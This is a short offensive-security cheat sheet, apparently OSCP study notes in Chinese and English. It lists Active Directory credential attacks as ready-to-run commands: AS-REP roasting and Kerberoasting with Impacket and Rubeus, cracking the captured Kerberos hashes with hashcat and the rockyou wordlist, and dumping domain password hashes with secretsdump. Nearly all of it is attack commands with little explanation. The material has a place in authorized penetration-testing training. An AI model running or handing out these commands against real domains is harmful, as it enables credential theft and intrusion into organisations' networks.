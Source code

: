# AS-REP Roasting
如果对域内某用户拥有GenericWrite或GenericAll权限
可以
**我们还可以利用这些权限修改用户的用户账户控制值，使其不要求Kerberos预身份验证**。—— 精准AS-REP烘烤
## Impacket
```bash
impacket-GetNPUsers -dc-ip <Domain_Controller_IP> corp.com/pete
impacket-GetNPUsers -dc-ip <Domain_Controller_IP> 'oscp.exam/'
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asrep corp.com/pete
  ```
  ## Rubeus
```powershell
Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file> /nowrap
```
## Kerberoasting
## Impacket
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete -hashes <ntlm>
```
>"KRB_AP_ERR_SKEW(时钟偏差太大)" ->
>校时:ntpdate 3 或rdate 4
>提示：KRB5CCNAME未配置；找不到CCache文件[[impacket-GetUserSPNs ccache Not found ...]]
## Rubeus
```powershell
Rubeus.exe kerberoast /outfile:<output_TGSs_file>
Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"SID-VALUE"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] 
```
# Crack With HashCat
```bash
hashcat --help | grep -i "Kerberos"
#  18200 | Kerberos 5, etype 23, AS-REP
#  13100 | Kerberos 5, etype 23, TGS-REP  -- Kerberoasting

sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
# Extract
```bash
impacket-secretsdump username@target-ip -dc-ip target-ip
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
